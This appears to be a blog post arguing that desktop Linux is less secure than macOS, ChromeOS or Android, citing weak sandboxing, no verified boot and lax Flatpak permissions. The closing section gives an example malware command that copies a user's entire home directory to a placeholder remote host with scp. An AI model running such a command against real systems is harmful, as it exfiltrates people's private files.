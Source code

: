 ```yaml
---
title: "Linux Insecurities"
date: 2022-07-18
tags: ['Operating Systems', 'Linux', 'Security',]
author: Tommy
---
```


There is a common misconception among privacy communities that Linux is one of the more secure operating systems, either because it is open-source or because it is widely used in the cloud. However, this is a far cry from reality.

There is already a very in-depth technical blog explaining the various security weaknesses of Linux by Madaidan, [Whonix](https://www.whonix.org/)'s Security Researcher. This page will attempt to address some of the questions commonly raised in reaction to his blog post. You can find the original article [here](https://madaidans-insecurities.github.io/linux.html).

![Madaidan's Linux Insecurities](/images/madaidan-insecurities-linux.png)

## Why is Linux used on servers if it is so insecure?

On servers, while most of the problems referenced in the article still exist, they are somewhat less problematic. 

On Desktop Linux, GUI applications run under your user, and thus have access to all of your files in `/home`. This is in contrast to how system daemons typically run on servers, where they have their own group and user. For example, NGINX will run under `nginx:nginx` on Red Hat distributions, or `www-data:www-data` on Debian based ones. Discretionary Access Control does help with filesystem access control for server processes, but is useless for desktop applications.

Another thing to keep in mind is that Mandatory Access Control is also somewhat effective on servers, as commonly run system daemons are confined. In contrast, on desktop, there is virtually no AppArmor profile to confine even regularly used apps like Chrome or Firefox, let alone less common ones. On SELinux systems, these apps run in the UNCONFINED SELinux domain.

Linux servers are lighter than Desktop Linux systems by orders of magnitude, without hundreds of packages and dozens of system daemons running like X11, audio servers, printing stack, and so on. Thus, the attack surface is much smaller.

## Linux Hardening Myths

There is a common claim in response to Madaidan that Linux is only insecure by default, and that an experienced user can make it the most secure operating system out there, surpassing the likes of macOS or ChromeOS. Unfortunately, this is wishful thinking. There is no amount of hardening that one can reasonably apply as a user to fix up the inherent issues with Linux.

### Lack of verified boot

macOS, ChromeOS, and Android have a clear distinction between the system and user installed application. In over simplified terms, the system volume is signed by the OS vendor, and the firmware and boot loader works to make sure that said volume has the authorized signature. The operating system itself is immutable, and nothing the user does will need or be allowed to tamper with the system volume.

On Linux, there is no such clear distinction between the system and user installed applications. Linux distributions are a bunch of packages put together to make a system that works, and thus every package is treated as part of said system. The end result is that binaries, regardless of whether they are vital for the system to function or just an extra application, are thrown into the same directories as each other (namely `/usr/bin` and `/usr/local/bin`). This makes it impossible for an end user to setup a verification mechanism to verify the integrity of "the system", as said "system" is not clearly defined in the first place.

### Lack of application sandboxing

Operating systems like Android and ChromeOS have full system mandatory access control, every process from the init process is strictly confined. Regardless of which application you install or how you install them, they have to play by the rules of an untrusted SELinux domain and are only able to utilize unprivileged APIs.

Even on macOS, where the application sandbox is opt-in for developers, there is still a permission control system (TCC) for unprivileged applications. Apps run by the user do not have unrestricted access to their microphone, webcam, keystrokes, sensitive documents, and so on.

On Linux, it is quite the opposite. Out of the box, most systems only have a few system daemons confined. Some Linux distributions don't even have a Mandatory Access Control system at all. Applications are designed in an environment where they expect to be able to do whatever they want, and the app sandboxes/mandatory access control system are merely an afterthought trying to restrict an app to only access what it expects to be accessible. 

This is reflected in the under utilization of the [Portals API](https://docs.flatpak.org/en/latest/portal-api-reference.html) as an example. Portals is designed to be an API where apps have to prompt the user to access their files (through the File Manager) or their microphone and camera. Unfortunately, the vast majority of apps are not designed with this in mind, and expect direct access to the filesystem, pulseaudio socket or the entire `/dev`. As a result, Flatpak maintainers often opt to have extremely lax permissions to the point where they have to grant `filesystem=home`, `filesystem=host`, `socket=pulseaudio` or `devices=all`, otherwise apps will break and give users a bad experience.

To make matters worse, some system daemons are not designed with permission control in mind at all. For example, PulseAudio does not have any concept of audio in or out permission. Thus, the user is often left with only the choice of granting an app access to the socket or not. If they want to block microphone access, they have to block access to the socket, and thus break audio playback in the process. If they do want an audio playback, then they have to allow access to the PulseAudio socket, which in turns give an app unrestricted access to record them at any moment.

The only way to systematically fix this problem is to design a whole new system from scratch with a permission model like that of Android in mind. And even when that happens, it will take substantial work to get developers to develop their apps for said system.

## But Linux is open source!

Something being open source does not imply that it is inherently private, secure, or trustworthy. I recommend reading the [FLOSS Security](/posts/knowledge/floss-security) post by [Rohan Kumar](https://seirdy.one/posts/2022/02/02/floss-security/).

## But there is less malware on Linux!

**Security by irrelevance does not work**. Just because there are fewer users of your favorite operating system does not make it any safer. 

Ask yourself this: Would you ditch Windows for ReactOS considering that it is a lot less popular and is less targeted? Likewise, would you ditch Linux desktop when it becomes the mainstream solution for the BSDs or some niche operating systems just because they are less popular?

Malware for Linux does exist, and it is not hard to make. It can be something as trivial as a shell script or binary executing `scp -r ~/ malware@xx.xx.xx.xx:/data`. Due to the lack of application sandboxing or an application permission model, your computer can be compromised the moment you execute a malicious binary, shell script, or install script with or without root and with or without an exploit. This is, of course, not to discount the fact that many exploits do exist on Linux just like on any other operating systems as well.
